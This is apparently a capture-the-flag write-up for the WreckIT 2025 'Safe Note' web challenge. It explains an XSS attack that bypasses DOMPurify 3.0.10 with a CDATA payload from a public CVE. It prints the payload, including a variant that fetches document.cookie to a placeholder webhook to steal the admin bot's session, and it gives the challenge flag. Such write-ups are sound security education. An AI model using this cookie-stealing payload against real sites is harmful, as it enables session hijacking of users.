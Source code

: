 ```yaml
---
description: '[Solved] A black box web exploitation CTF challenge from WreckIT 2025'
---
```


# \[Web] Safe Note

## TL;DR

* Blackbox challenge but we can see that it uses dompurify 3.0.10 min,js
* There's a CVE: [https://security.snyk.io/vuln/SNYK-JS-DOMPURIFY-6474511](https://security.snyk.io/vuln/SNYK-JS-DOMPURIFY-6474511)&#x20;
* Just use the payload from the cve to do xss fetch + document.cookie
* Profit

Flag: WRECKIT60{s1mple\_xss\_since\_im\_not-really\_good\_at\_doing\_web}

## Description

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## Overview

The website has an input that takes a string of text and then show it in the website. It also able to render a text according to a request paramater 'note'.&#x20;

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Seeing that it can makes a text appear in a website through a link alone, make me leans to think that its an XSS and looking at the source code......&#x20;

Well, We are not given a source code so we are limited to only the source we get from devtools but that is plenty enough.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

As we can see from app.js, theres a possible XSS as the input is set into an innerHTML but is sanitized first by dompurify.

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

The website also has a report functionality for obvious XSS CTF purposes.

## Solution

We know that if we can bypass that dompurify, we can essentialy get XSS and Unfortunately, the website uses an older version of dompurify:

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

It uses Dompurify min.js version 3.0.10 which if we search for CVEs, we find quite a bit of them (lmao). One of them has a payload which is the following,

```javascript
<![CDATA[ ><img src onerror=alert(1)> ]]>
```

I literally just copy pasted it and it works. So I just change it to make it fetch to my webhook with the admin cookie,

```javascript
<![CDATA[ ><img src onerror=fetch('webhook?data=' + document.cookie)> ]]>
```

Then, use the share functionality of the web to change my payload to an URL and then give it to the admin bot and we're done.

## Links

References:

{% embed url="https://security.snyk.io/vuln/SNYK-JS-DOMPURIFY-6474511" %}

